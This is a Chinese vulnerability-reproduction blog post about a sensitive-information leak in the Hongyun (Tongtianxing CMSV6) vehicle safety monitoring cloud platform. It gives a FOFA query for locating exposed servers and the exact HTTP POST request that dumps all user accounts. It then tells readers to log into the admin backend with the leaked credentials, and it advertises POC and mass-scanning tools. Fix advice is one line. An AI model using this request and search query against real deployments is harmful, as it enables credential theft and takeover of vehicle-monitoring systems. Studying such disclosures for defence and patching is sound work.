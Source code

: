 #  鸿运(通天星CMSV6车载)主动安全监控云平台存在敏感信息泄露漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-26 20:42  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 鸿运(通天星CMSV6车载)主动安全监控云平台简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
鸿运(通天星CMSV6车载)主动安全监控云平台实现对计算资源、存储资源、网络资源、云应用服务进行7*24小时全时区、多地域、全方位、立体式、智能化的IT运维监控，保障IT系统安全、稳定、可靠运行。  
## 2.漏洞描述  
  
鸿运主动安全监控云平台实现对计算资源、存储资源、网络资源、云应用服务进行7*24小时全时区、多地域、全方位、立体式、智能化的IT运维监控，保障IT系统安全、稳定、可靠运行。鸿运(通天星CMSV6车载)主动安全监控云平台存在敏感信息泄露漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
鸿运(通天星CMSV6车载)主动安全监控云平台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wz3V9ZqqVicb4iasrthZoic8vP70ATIRJvJy9RXcKibc2NH1HEbabMd46iaDw/640?wx_fmt=jpeg&from=appmsg "null")  
  
鸿运(通天星CMSV6车载)主动安全监控云平台存在敏感信息泄露漏洞  
## 4.fofa查询语句  
  
body="./open/webApi.html"||body="/808gps/"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/808gps/StandardLoginAction_getAllUser.action  
  
漏洞数据包：  
```
POST /808gps/StandardLoginAction_getAllUser.action HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Length: 9
Content-Type: application/x-www-form-urlencoded

json=null
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzdddkXp7oUwqaDxPaBQ4iafGB7ibtdsw7W66dXZPVyJlnVA0WvKHQibicicg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
利用泄露的信息登录后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzu1c0x6OZW1NActClpr5SicrZVibz0DwngD3qsHOpPia1lD3sUDhK5pnpg/640?wx_fmt=jpeg&from=appmsg "")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现106 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzxiaIZQneD86zHMm34a59Ocv4rIQVWjfKxhcITbUB0jv5CyhczmCgw5w/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzzIOFnXBEHg6CRB1btlJFKE5UFfHl6zKhEaTzJrTgzUPvbaWkPqMewA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzicvRribK2lJjbZglHVMERxIderEoO0Mf8GhUb55w12V2kOicR64HYXblw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzMiaiaibGf8JnqXdtYRh70QrfhcOFv08ehriapQ9V95qIoM8oibVHJsaEsIw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzlGqaU05Mp4UBoAZrB7xs4aJA2htKzg09ib4uZz3J4T1ZB4j0uuRZiaeg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZCliabRPDu7FQqNFvbsa6wzYxNTgHVaicykm299iasZbeGTS4jkquQlkt8SLQL6j0iaTahIJicPibkTY8w/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系厂商打补丁或者升级到最新版本。  
## 8.往期回顾  
  
[万户协同办公平台ezoffice text2Html接口存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485391&idx=1&sn=aa5d5dbff3236275de3b833f3fbb352e&chksm=974b8ac8a03c03debc66056e045e86f4eabc31b7df299b878ce87cc5a390afac0115416caea6&scene=21#wechat_redirect)  
  
  
[Edusoho网络课堂cms存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485379&idx=1&sn=cad3f569bd587a121cc02e29c1307a9e&chksm=974b8ac4a03c03d22e87ff77fe6efdd4d92264c555627fec752cde1c8ea4cc46f2b255088ec0&scene=21#wechat_redirect)  
  
  
  
  
